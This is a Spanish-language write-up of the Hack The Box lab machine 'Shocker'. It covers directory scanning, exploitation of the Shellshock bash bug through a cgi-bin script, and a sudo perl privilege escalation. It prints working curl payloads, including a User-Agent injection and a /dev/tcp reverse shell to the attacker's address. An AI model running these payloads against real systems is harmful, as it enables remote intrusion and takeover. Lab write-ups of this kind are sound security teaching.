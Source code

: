 ```yaml
---
layout: single
title: Writeup HTB - Maquina Shocker
comments: true
excerpt: "La maquina Shocker es una maquina linux - Easy, comenzamos escanendo directorios de una pagina web, encontramos el directorio cgi-bin donde logramos encontrar un script llamado user.sh, dicho script puede ser explotable a la vulnerabilidad ShellShok que nos permite ejecutar comandos como el usuario Shelly. Por ultimo logramos escalar privilegios como root abusando de los permisos de sudo con el binario perl."
date: 2022-02-07
classes: wide
header:
  teaser: /assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - xxe
  - Easy
---
```


# HTB - Shocker
<p align="center">
<img src="/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled.png">
</p>

## Resumen
<div style="text-align: justify">
La maquina Shocker es una maquina linux - Easy, comenzamos escanendo directorios de una pagina web, encontramos el directorio cgi-bin donde logramos encontrar un script llamado user.sh, dicho script puede ser explotable a la vulnerabilidad ShellShok que nos permite ejecutar comandos como el usuario Shelly. Por ultimo logramos escalar privilegios como root abusando de los permisos de sudo con el binario perl.
</div>

## Scan Nmap

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%201.png)

## Pagina Web - Port 80

lo primero que hacemos es revisar la pagina web de esta maquina, pero solo encontramos un imagen divertida con un mensaje de Don’t Bug Me!

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%202.png)

realizamos un escaneo de directorios y solo encontramos el directorio cgi-bin, dicho directorio se utiliza para alojar programas que son utilizados para ejecutar tareas en el servidor.

```bash
Shocker # ❯ dirsearch -u http://10.129.1.175 -w /usr/share/wordlists/dirb/common.txt -f -e php,html,js,txt,save,bak -t 200
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%203.png)

Por lo tanto hagamos un escaneo a dicho directorio con las siguientes extensiones

```bash
Shocker # ❯ dirsearch -u http://10.129.1.175/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -f -e sh,cgi,pl -t 200
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%204.png)

probamos que arroja dicho script user.sh

```bash
Shocker # ❯ curl -s http://10.129.1.175/cgi-bin/user.sh                  
Content-Type: text/plain

Just an uptime test script

 11:42:43 up  2:25,  0 users,  load average: 0.00, 0.00, 0.00
```

### Explotacion vulnerabilidad Shellshock

Primero vamos a aclarar que el nombre oficial de esta vulnerabilidad es [GNU Bash Remote Code Execution Vulnerability](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) (CVE-2014-6271) y está considerada como **grave**, tal y como sucedió con [Heartbleed](https://www.welivesecurity.com/la-es/2014/04/09/5-cosas-debes-saber-sobre-heartbleed/), ya que permitiría la **ejecución remota de código** y así obtener el control de un ordenador.

El problema con esta vulnerabilidad se viene produciendo porque Bash permite declarar funciones (algo que tampoco es extraño y entra dentro de lo normal), pero estas **no se validan de forma correcta** cuando se almacenan en una variable. En otras palabras: Bash se pasa de la raya, extralimita sus funciones y sigue ejecutando código a pesar de haber finalizado de procesar la función.

Asi pues explotamos dicha vulnerabilidad de la siguiente manera

```bash
curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.129.1.175/cgi-bin/user.sh
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%205.png)

### Reverse shell - User shelly

para obtener una reverse shell podemos un puerto 443 en escucha con netcat

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%206.png)

ejecutamos este payload

```bash
Shocker # ❯ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" http://10.129.1.175/cgi-bin/user.sh
```

y logramos conectarnos a una reverse shell con el usuario shelly

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%207.png)

## Escalacion de privilegios - User root

si revisamos los permisos de sudo

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%208.png)

logramos escalar privilegios como root de la siguiente manera

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%209.png)